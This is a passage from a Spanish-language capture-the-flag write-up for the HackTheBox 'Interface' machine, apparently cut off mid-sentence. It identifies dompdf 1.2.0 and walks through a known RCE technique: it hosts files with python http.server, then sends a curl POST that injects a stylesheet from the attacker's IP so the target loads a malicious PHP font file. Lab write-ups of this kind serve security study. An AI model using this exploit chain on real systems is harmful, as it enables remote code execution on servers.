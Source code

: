 ```
0 9
0000000000 65535 f 
0000000009 00000 n 
0000000074 00000 n 
0000000120 00000 n 
0000000274 00000 n 
0000000303 00000 n 
0000000452 00000 n 
0000000555 00000 n 
0000000701 00000 n 
trailer
<<
/Size 9
/Root 1 0 R
/Info 5 0 R
/ID[<35e3bd45fd8d550c68e51392884d9200><35e3bd45fd8d550c68e51392884d9200>]
>>
startxref
810
%%EOF
```


Analizando por encima el output del archivo obtenido podemos ver algo que parece ser una version ```dompdf 1.2.0```  Buscando en internet si puede haber alguna vulnerabilidad para esta version y la hay 

[https://github.com/positive-security/dompdf-rce](https://github.com/positive-security/dompdf-rce)

Esta clara la forma en la que hay que usar los comandos ya que no es un script automatizado como tal porque nosotros debemos hacer parte para que esta vulnerabilidad funcione, al traer el repositorio a nuestra maquina podemos ver que tenemos dos archivos 

Dentro del archivo tendremos un simple phpinfo() para comprobar si nuestra ejecucion funciona.

El siguiente paso es realizar una peticion para que la web de la maquina victima realice otra peticion de por medio a un servidor que nosotros vamos montar con python3 en primer lugar el servidor

```
python3 -m http.server 9001
```

Ahora nos dirigiremos a realizar la peticion con *curl*, que llamara al archivo exploit2.css para que mediante codigo .css llame al archivo exploit_font.php 

```
curl -s -X POST http://prd.m.rendering-api.interface.htb/api/html2pdf -H "Content-Type: application/pdf" -d '{"html":"<link rel=stylesheet href='http://10.10.14.115:9001/exploit2.css'>"}'
```

Vemos que tenemos una peticion que se realizo con exito



Ahora lo que debemos hacer es buscar el archivo en la web que en teoria deberia estar subido, en el repositorio nos comenta que debemos buscarlo por una ruta especifica, pero antes necesitamos un dato especifico en la url que debemos buscar hay un hash md5 el cual debemos adaptarlo a nuestro favor usaremos 
